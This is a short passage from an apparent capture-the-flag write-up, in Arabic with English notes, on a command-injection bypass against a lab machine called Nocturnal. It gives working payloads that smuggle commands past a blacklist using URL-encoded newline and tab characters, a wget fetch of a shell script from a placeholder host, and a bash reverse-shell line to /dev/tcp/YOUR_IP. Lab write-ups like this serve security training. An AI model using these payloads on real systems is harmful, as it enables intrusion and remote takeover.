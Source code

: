 ![failed](../assets/img/nocturnal_pass_failed.png)
مع مراعاة القائمة السوداء:
![success](../assets/img/nocturnal_pass_success.png)
الآن خلينا نحصل اتصال عكسي;
```text
%0awget%09http://ip:port/shell.sh

%0abash%09shell.sh
```
الحمولة الأولى عشان نحمل سكربت باش للإتصال العكسي:
```bash
/bin/bash -i >& /dev/tcp/YOUR_IP/4547 0>&1
```
والثانية عشان ننفذ السكربت
### الملاحظات
```text
The function cleanEntry() checks for the most common characters used in command injection but doesn't check 
for all of them. We can still inject commands using the newline character URL encoded and the 
tab character %0a & %09 respectivly... this is a straight forward exploitation
I used : %0awget%09http://ip:port/shell.sh - for fetching the file from my server.
And : %0abash%09shell.sh - for executing that file. Although I think renaming them is a good practice.
```